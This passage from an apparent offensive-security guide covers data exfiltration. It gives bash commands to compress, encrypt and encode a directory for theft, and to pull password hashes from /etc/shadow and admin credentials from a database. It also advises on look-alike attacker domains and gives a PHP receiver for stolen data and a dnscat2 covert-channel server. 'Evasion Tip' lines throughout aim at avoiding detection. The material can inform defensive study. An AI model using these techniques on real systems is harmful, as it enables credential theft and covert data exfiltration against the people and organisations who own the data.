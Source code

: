 - **Data Compression**: Reduce the size of data before exfiltration.
  - **Example (Compression Before Exfiltration)**:
    ```bash
    # Compress, encrypt, and encode
    tar czf - sensitive_directory/ | \
    openssl enc -aes-256-cbc -salt -k password | \
    base64 > prepared_data.txt
    
    # Then exfiltrate prepared_data.txt using any method
    ```
  - **Evasion Tip**: Compression reduces the amount of data to exfiltrate, lowering the chance of triggering volume-based alerts.

- **Selective Exfiltration**: Only extract the minimum necessary data.
  - **Example (Extracting Only Critical Fields)**:
    ```bash
    # Extract only password hashes from /etc/shadow
    grep -v '^[^:]*:[*!]:' /etc/shadow | cut -d: -f1,2 > password_hashes.txt
    
    # Extract only specific data from a database
    sqlite3 database.db "SELECT username, password FROM users WHERE admin=1" > admin_creds.txt
    ```
  - **Evasion Tip**: The less data you need to exfiltrate, the lower your chances of detection.

## 9. Attacker Infrastructure Considerations

Proper setup of receiving infrastructure is crucial for successful exfiltration.

- **Domain Selection**: Choose domains that blend with normal traffic.
  - **Example**: Use domains that mimic legitimate services (e.g., `update-cdn.com`, `api-services.net`).
  - **Evasion Tip**: Avoid domains with obvious malicious or hacking-related names. Consider using aged domains with clean reputations.

- **Server Configuration**: Set up servers to receive exfiltrated data.
  - **Example (Simple HTTP Receiver in PHP)**:
    ```php
    <?php
    // receiver.php
    $data = file_get_contents('php://input');
    file_put_contents('received_data_' . time() . '.bin', $data);
    echo "OK";
    ?>
    ```
  - **Example (DNS Server Setup)**:
    ```bash
    # Using dnscat2 server
    ruby dnscat2.rb yourdomain.com
    ```
  - **Evasion Tip**: Ensure your receiving infrastructure doesn't have obvious indicators that could be detected by threat intelligence feeds.
